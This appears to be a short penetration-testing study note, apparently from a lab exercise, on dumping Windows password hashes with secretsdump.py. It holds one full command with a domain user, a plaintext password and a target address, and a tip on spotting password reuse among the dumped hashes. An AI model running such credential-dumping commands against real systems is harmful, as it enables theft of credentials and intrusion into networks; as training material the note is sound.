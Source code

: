 # Dumping Hashes with secretsdump.py

## Simply Issue this Command

```bash
secretsdump.py marvel/fcastle:'P@$$w0rd!'@172.16.35.7
```

## To Check for Password Reuse

* look at the last part of the hash, and see if there are any duplicates
